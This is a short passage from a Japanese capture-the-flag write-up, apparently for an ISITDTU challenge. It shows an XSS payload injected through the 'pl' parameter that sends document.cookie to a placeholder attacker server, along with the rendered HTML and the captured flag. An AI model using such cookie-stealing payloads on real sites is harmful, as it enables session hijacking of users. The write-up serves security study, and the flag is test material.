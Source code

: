 これを利用して、`/?pl=";location.assign("http://(攻撃者のサーバ)?"%2bdocument.cookie)//<script>a="` でフラグが得られました。

```html
/*** We prevent change the location ***:
<script>Object.freeze(location);</script>";location.assign("http://(攻撃者のサーバ)?"+document.cookie)//<script>a="<br><script>location='http://";location.assign("http://(攻撃者のサーバ)"+document.cookie)//<script>a="';</script>
```

```
ISITDTU{0274fdcad72fb003e36bb77d9ef2279b3eb3f519}
```

---

`/*** We prevent change the location ***:` という怪しげなコメント (`/*` から始まっているのに `*/` で閉じられていない) が気になるのですが、これを `<script src="?pl=*/…">` みたいな感じで利用するのが想定解法なのでしょうか。